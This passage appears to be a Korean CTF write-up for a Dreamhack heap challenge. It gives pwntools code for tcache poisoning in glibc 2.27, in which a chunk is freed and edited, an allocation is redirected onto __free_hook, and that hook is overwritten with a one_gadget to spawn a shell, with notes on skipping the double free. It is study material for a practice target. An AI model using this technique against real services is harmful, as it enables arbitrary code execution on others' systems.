 ```
# tcahce[0x50] : first(1)
free()


# tcache[0x50] : first(1) -> aaaaaaaa
edit(b'a'*0x8 + b'a')


# tcache[0x50] : first(2) -> first(1) + 0x10
free()


# tcache[0x50] : first(1) + 0x10 -> free_hook
# chunk : first(2)
allocate(0x40, p64(free_hook))


# tcache[0x50] : free_hook
# chunk : first(1)
allocate(0x40, b'a')


# tcache[0x50] : empty
# chunk : free_hook
allocate(0x40, p64(og))  # free_hook이 저장된 주소에 og가 저장되어 free_hook -> og를 가리키게 됨


# Exploit
free()
p.interactive()
```

## `Double Free` 없이 `tcache`에 청크를 추가하는 방법 : `ex1.py`

처음에 위의 방식대로 `ex.py`로 `Double Free`를 통한 `tcache poisoning`을 하였는데, `tcache_dup2` 문제를 풀면서 생각해보니,

**`Double Free`를 해주지 않고도 `edit` 함수가 있으면 원하는 주소의 청크를 추가할 수 있다는 것을 알게 되었다.**

따라서, `청크 할당 -> 청크 해제 -> 청크 수정(추가하고 싶은 주소)`를 해주면 `Double Free`를 해주지 않아도 `stdout`이나 `free_hook`처럼 원하는 청크를 `tcache`에 추가할 수 있다.

이후 방법은 똑같이, 추가한 청크를 `allocate`로 뺀 후에 출력해서 값을 얻거나(`_IO_2_1_stdout_`), 해당 주소에 값을 조작(`og`)하면 된다.

하지만 이건 `tc_idx`가 도입되지 않은 버전이라서 가능한 것이기 때문에, 항상 `tc_idx` 검사가 있다고 생각하고 `Double Free`를 통해 `tc_idx`를 `1` 이상으로 만들어줘야 한다.\
(`Double Free`에서도 이번 문제에서는 `edit` 순서를 신경써주지 않아서 `tc_idx`가 `0`이 되었지만 실제로는 `edit`을 먼저 해서 `tc_idx >= 1`을 유지해야한다.)

```
from pwn import *

p = remote('host3.dreamhack.games', 16758)
elf = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')


def allocate(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)  # 나중에 _IO_2_1_stdout__lsb를 보낼때 sendline으로 보내면 공백이 추가되서 안됨


def free():
    p.sendlineafter(b'Edit\n', b'2')

```